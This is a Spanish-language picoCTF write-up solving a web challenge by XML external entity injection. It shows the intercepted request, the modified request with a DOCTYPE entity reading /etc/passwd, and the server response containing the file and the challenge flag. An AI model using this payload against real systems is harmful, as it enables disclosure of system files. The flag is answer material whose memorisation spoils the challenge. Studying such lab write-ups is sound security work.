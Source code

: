 ## Objetivo
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
## Solución
Vemos la consulta con burpsuite
```
POST /data HTTP/1.1

Host: saturn.picoctf.net:65236

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://saturn.picoctf.net:65236/

Content-Type: application/xml

Content-Length: 61

Origin: http://saturn.picoctf.net:65236

Connection: keep-alive



<?xml version="1.0" encoding="UTF-8"?>

<data><ID>

3

</ID></data>
```
Insertamos entidad externa y accedemos a la carpeta de las contraseñas
```
POST /data HTTP/1.1

Host: saturn.picoctf.net:65236

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://saturn.picoctf.net:65236/

Content-Type: application/xml

Content-Length: 137

Origin: http://saturn.picoctf.net:65236

Connection: keep-alive



<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ENTITY toreplace SYSTEM '/etc/passwd'> ]>

<data><ID>

&toreplace;

</ID></data>
```

Reenviamos la consulta y vemos la respuesta
```
HTTP/1.1 200 OK

Server: Werkzeug/2.3.6 Python/3.8.10

Date: Tue, 01 Oct 2024 02:44:18 GMT

Content-Type: text/html; charset=utf-8

Content-Length: 1025

Connection: close



Invalid ID: 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed} 
```
## Notas adicionales

## Referencias
[https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity]

